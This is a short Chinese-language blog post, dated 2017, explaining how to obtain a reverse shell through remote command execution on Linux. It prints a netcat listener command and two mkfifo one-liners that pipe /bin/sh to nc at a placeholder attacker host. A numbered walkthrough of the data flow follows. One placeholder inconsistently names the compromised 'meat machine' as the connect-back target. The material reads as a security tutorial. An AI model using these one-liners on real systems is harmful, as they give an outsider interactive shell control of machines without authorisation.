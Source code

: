 ```yaml
---
title: 通过远程命令执行反弹shell
categories: technology
tags: [web安全,shell,远程命令执行,nc,linux]
date: 2017-05-19 10:40:33
---
```


## 通过shell命令模拟反弹shell的攻击过程

其中attcker_machine是攻击者的机器，也是最终shell反弹的目标机器。meat_machine是一台受攻击的肉鸡，是shell被反弹的机器。

```shell
# {attacker_machine_ip} 监听2333端口
nc -l -p 2333 -v 
# 反弹shell至{meat_machine_ip} 2333端口
rm /tmp/bd;mkfifo /tmp/bd;cat /tmp/bd | /bin/sh -i 2>&1 | nc {meat_machine_ip} 2333 >/tmp/bd
# 不从stderr传给stdout
rm /tmp/bd;mkfifo /tmp/bd;cat /tmp/bd | /bin/sh -i >&1 | nc {attacker_machine_ip} 2333 > /tmp/bd
```

mkfifo 是创建一个先进先出的文件，整个流程如下：

1. 先在受害机器上创建了一个先进先出的文件bd
2. nc连接控制机，接受控制机的输入，传给bd这个文件
3. cat 将bd文件内容传给/bin/sh 执行
4. `2>&1`是将stderr传给stdout，然后重定向给nc
5. nc通过网络将结果传给了控制机


